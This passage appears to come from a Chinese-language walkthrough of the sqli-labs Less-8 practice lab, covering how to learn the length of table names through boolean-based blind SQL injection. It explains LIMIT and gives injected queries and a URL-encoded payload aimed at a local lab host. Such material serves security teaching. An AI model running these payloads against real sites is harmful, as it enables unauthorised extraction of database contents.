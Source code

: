 #### 获取表名长度

* `limit`

  用于强制返回指定的记录行数，语法如下

  ```
  select * from table_name limit [offset，] rows
  offset：指定第一个返回记录行的偏移量（即从哪一行开始返回），注意：初始行的偏移量为0。
  rows：返回行数的数量。
  ```

方法同获取数据库名长度，但是由于表名可能不止一个。当表名为多个的时候，直接将下面的`SQL`语句拿到数据库中运行将会报错。

```
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database()))=1#' LIMIT 0,1;
;
```

![](image/16.jpg)

> `length((select table_name from Information_schema.tables where table_schema = database()))`此处的括号并没有多敲，`length()`自带一个括号，`select`的结果也需要一个括号。去掉一层括号，数据库将会报错。~~（不去掉括号也会报错）~~

所以此处需要用到`limit`来控制行数，然后再一一爆破。

> 之所以不用`group_concat`是为了防止有些人不讲武德，在表名里也用除下划线以外的符号，比如`,`

下面以第一个表为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6%23
SQL:
SELECT * FROM users WHERE id='1' and length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6#' LIMIT 0,1
;
```
